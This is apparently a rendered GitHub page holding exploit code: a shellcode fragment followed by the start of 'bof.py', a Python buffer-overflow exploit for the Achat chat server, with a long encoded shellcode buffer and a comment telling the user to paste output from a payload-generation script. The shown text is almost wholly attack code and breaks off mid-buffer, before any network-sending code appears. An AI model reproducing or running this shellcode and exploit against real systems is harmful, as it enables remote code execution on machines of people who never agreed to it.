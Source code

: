 ```
buf += b"\x4e\x4b\x58\x34\x35\x5a\x4c\x53\x38\x4c\x30\x57"
buf += b"\x45\x56\x42\x51\x46\x4b\x4f\x5a\x35\x52\x48\x43"
buf += b"\x33\x52\x4d\x53\x34\x4d\x30\x35\x39\x5a\x43\x52"
buf += b"\x37\x52\x37\x51\x47\x50\x31\x4a\x56\x51\x5a\x4d"
buf += b"\x42\x31\x49\x32\x36\x5a\x42\x4b\x4d\x32\x46\x57"
buf += b"\x57\x51\x34\x4d\x54\x4f\x4c\x4b\x51\x4b\x51\x54"
buf += b"\x4d\x50\x44\x4d\x54\x4c\x50\x39\x36\x4d\x30\x4f"
buf += b"\x54\x52\x34\x50\x50\x42\x36\x30\x56\x30\x56\x50"
buf += b"\x46\x32\x36\x50\x4e\x42\x36\x30\x56\x42\x33\x32"
buf += b"\x36\x42\x48\x44\x39\x38\x4c\x4f\x4f\x33\x56\x4b"
buf += b"\x4f\x5a\x35\x33\x59\x4b\x30\x30\x4e\x50\x56\x50"
buf += b"\x46\x4b\x4f\x4e\x50\x43\x38\x4c\x48\x54\x47\x4d"
buf += b"\x4d\x53\x30\x4b\x4f\x38\x55\x57\x4b\x4b\x30\x4d"
buf += b"\x4d\x4d\x5a\x4c\x4a\x32\x48\x57\x36\x45\x45\x47"
buf += b"\x4d\x45\x4d\x4b\x4f\x38\x55\x4f\x4c\x4d\x36\x53"
buf += b"\x4c\x4b\x5a\x43\x50\x4b\x4b\x59\x50\x54\x35\x4d"
buf += b"\x35\x47\x4b\x30\x47\x4e\x33\x32\x52\x32\x4f\x52"
buf += b"\x4a\x4b\x50\x42\x33\x4b\x4f\x38\x55\x41\x41"
```

bof.py：

```python
#!/bin/usr/python
import socket
import sys, time

class bcolours:
    GREEN = '\033[92m'
    TURQ = '\033[96m'
    ENDC = '\033[0m'

#YOU WILL NEED TO PASTE THE OUTPUT FROM THE SHELL SCRIPT: "ACHAT_PAYLOAD.SH" BELOW:

buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x51"
buf += b"\x41\x54\x41\x58\x41\x5a\x41\x50\x55\x33\x51\x41\x44"
buf += b"\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41"
buf += b"\x51\x41\x49\x41\x51\x41\x50\x41\x35\x41\x41\x41\x50"
buf += b"\x41\x5a\x31\x41\x49\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x58\x41\x35\x38\x41\x41\x50"
buf += b"\x41\x5a\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49"
buf += b"\x41\x49\x51\x49\x31\x31\x31\x31\x41\x49\x41\x4a\x51"
buf += b"\x49\x31\x41\x59\x41\x5a\x42\x41\x42\x41\x42\x41\x42"
buf += b"\x41\x42\x33\x30\x41\x50\x42\x39\x34\x34\x4a\x42\x4b"
buf += b"\x4c\x5a\x48\x43\x52\x4d\x30\x4d\x30\x4d\x30\x31\x50"
buf += b"\x55\x39\x5a\x45\x30\x31\x37\x50\x43\x34\x34\x4b\x50"
buf += b"\x50\x4e\x50\x54\x4b\x52\x32\x4c\x4c\x34\x4b\x42\x32"
buf += b"\x4e\x34\x34\x4b\x32\x52\x4f\x38\x4c\x4f\x37\x47\x50"
buf += b"\x4a\x4d\x56\x4e\x51\x4b\x4f\x46\x4c\x4f\x4c\x31\x51"
buf += b"\x33\x4c\x4c\x42\x4e\x4c\x4f\x30\x49\x31\x38\x4f\x4c"
buf += b"\x4d\x4d\x31\x57\x57\x49\x52\x5a\x52\x30\x52\x42\x37"
buf += b"\x34\x4b\x42\x32\x4c\x50\x44\x4b\x30\x4a\x4f\x4c\x54"
buf += b"\x4b\x30\x4c\x4c\x51\x54\x38\x5a\x43\x31\x38\x4b\x51"
buf += b"\x5a\x31\x42\x31\x34\x4b\x50\x59\x4f\x30\x4b\x51\x5a"
buf += b"\x33\x54\x4b\x51\x39\x4c\x58\x4b\x33\x4f\x4a\x51\x39"
buf += b"\x34\x4b\x30\x34\x44\x4b\x4b\x51\x4a\x36\x30\x31\x4b"
buf += b"\x4f\x36\x4c\x59\x31\x48\x4f\x4c\x4d\x4d\x31\x47\x57"
buf += b"\x30\x38\x49\x50\x54\x35\x4a\x56\x4d\x33\x43\x4d\x4a"
buf += b"\x58\x4f\x4b\x33\x4d\x4d\x54\x52\x55\x59\x54\x31\x48"
buf += b"\x54\x4b\x50\x58\x4f\x34\x4b\x51\x58\x53\x31\x56\x54"
buf += b"\x4b\x4c\x4c\x30\x4b\x44\x4b\x42\x38\x4d\x4c\x4b\x51"
buf += b"\x59\x43\x54\x4b\x4d\x34\x44\x4b\x4b\x51\x58\x50\x44"
buf += b"\x49\x31\x34\x4f\x34\x4e\x44\x51\x4b\x31\x4b\x33\x31"
```